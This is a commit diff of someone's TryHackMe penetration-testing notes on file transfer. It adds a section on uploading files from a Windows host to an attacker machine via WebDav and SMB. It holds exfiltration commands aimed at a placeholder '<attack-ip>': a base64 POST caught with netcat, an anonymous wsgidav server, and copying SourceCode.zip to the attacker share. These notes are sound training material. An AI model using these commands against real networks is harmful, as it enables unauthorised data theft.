

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/File Transfer.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
SMB Uploads added!

```diff
--- a/Notes/File Transfer.md
+++ b/Notes/File Transfer.md
@@ -63,3 +63,14 @@
 			- Use `Invoke-WebRequest -Uri http://<attack-ip>:8080/ -Method POST -Body $b64` to send a POST request with the file to the attacking machine.
 			- Catch the Base64 data using `nc -lvnp 8080`.
 			- Decode using `echo <base64> | base64 -d -w 0 > hosts`.
+	- ##### SMB Uploads
+		- Since companies usually allow outbound traffic using HTTP (TCP/80) and HTTPS (TCP/443) protocols and deny SMB (TCP/445) out of their internal network, SMB can be used over HTTP with `WebDav`.
+		- `WebDav` protocol enables a web server to behave like a file server, supporting collaborative content authoring, `WebDav` can also use HTTPS.
+		- When SMB is used, it will try to connect using the SMB protocol, if there is no SMB share available, it will try to connect using HTTP.
+		- **Configuring WebDav Server**
+			- Install necessary modules using `sudo pip3 install wsgidav cheroot`
+			- Starting the server using `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`.
+		- Connect to the share using the `DavWWWRoot` directory which is a special keyword recognized by the Windows Shell, no such folder exists on the WebDav server, `dir \\<attack-ip>\DavWWWRoot`, and to not use the keyword, specify a folder that exists on the server. For example `\<attack-ip>\sharefolder`.
+		- Copy the file using `copy C:\Users\john\Desktop\SourceCode.zip \\<attack-ip>\DavWWWRoot\` or `copy C:\Users\john\Desktop\SourceCoce.zip \\<attack-ip>\sharefolder\`.
+		- If there are no SMB (TCP/445) restrictions, `impacket-smbserver` the same way we set it up for download operations.
+	- ##### FTP Uploads
```
